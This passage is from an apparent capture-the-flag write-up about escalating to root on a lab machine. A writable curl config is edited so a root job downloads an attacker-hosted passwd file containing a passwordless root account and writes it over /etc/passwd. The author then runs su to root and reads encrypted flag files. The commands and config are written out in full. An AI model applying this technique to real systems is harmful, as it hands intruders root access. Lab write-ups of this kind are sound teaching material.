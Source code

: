 but since we can modify this file, we can modify the url to some file that we control and add another argument which is output, to right the content of the url to that output file.

let's first test this, so in my local machine, i create a simple text file and opened an http server 

On your local machine
```
echo 'root1::0:0:root1:/home/root1:/bin/bash' >> passwd
python3 -m http.server 80
```
then i modified the curl config file to i.e the site_check

```
url = "http://10.8.18.3/passwd"
output = "/etc/passwd"
```
then we start the http server, after a while i got the request, so i tried to login to the new user i created :
```
F30s@482cbf2305ae:~$ su root1
root@482cbf2305ae:/home/F30s# cd /root
root@482cbf2305ae:/root# whoami
root
root@482cbf2305ae:/root# id
uid=0(root) gid=0(root) groups=0(root)
```

## Reading the root flag

```
root@482cbf2305ae:/root# ls
flag2.txt  secret.txt
root@482cbf2305ae:/root# cat flag2.txt
b'ey}BQB_^[\\ZEnw\x01uWoY~aF\x0fiRdbum\x04BUn\x06[\x02CHonZ\x03~or\x03UT\x00_\x03]mD\x00W\x02gpScL'
root@482cbf2305ae:/root# cat secret.txt
b'C^_M@__DC\\7,'
```
we see that the flag is somehow encrypted again, and there is another file named secret.txt and that's also looks encrypted.

i tried to decrypt them using XOR and the key we found earlier but that didn't work.

after some time we notice this text file in / :

```
root@482cbf2305ae:/# ls -la
total 92
...
drwxr-xr-x   1 root root 4096 Jun 24 14:14 run
drwxr-xr-x   1 root root 4096 Nov 15  2022 sbin
-rw-r--r--   1 root root  629 May 19 12:28 secret-tip.txt
drwxr-xr-x   2 root root 4096 Nov 14  2022 srv
dr-xr-xr-x  13 root root    0 Sep 24 14:33 sys
```
let's read it 
```
A wise *gpt* once said ...
In the depths of a hidden vault, the mastermind discovered that vital ▒▒▒▒▒ of their secret ▒▒▒▒▒▒ had vanished without a trace. They knew their ▒▒▒▒▒▒▒ was now vulnerable to disruption, setting in motion a desperate race against time to recover the missing ▒▒▒▒▒▒ before their ▒▒▒▒▒▒▒ unraveled before their eyes.
So, I was missing 2 .. hmm .. what were they called? ... I actually forgot, anyways I need to remember them, they're important. The past/back/before/not after actually matters, follow it!
Don't forget it's always about root!
```